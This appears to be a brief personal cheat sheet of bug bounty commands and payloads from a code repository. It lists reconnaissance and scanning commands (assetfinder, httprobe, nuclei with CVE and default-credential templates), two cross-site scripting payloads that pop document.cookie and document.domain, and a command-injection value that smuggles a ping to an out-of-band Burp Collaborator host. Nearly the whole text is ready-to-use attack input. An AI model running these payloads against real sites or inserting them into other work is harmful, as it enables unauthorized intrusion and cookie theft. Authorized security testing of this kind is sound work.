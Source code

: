 # Bug Bounty Personal Tips

``` assetfinder X.com | tee -a /tmp/X.txt```

``` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt ```

```  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337```

```  : /"><script>alert(document.cookie)</script> ```

``` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E ```

``` galletita ; ping -c 1 burp.oastify.com ```
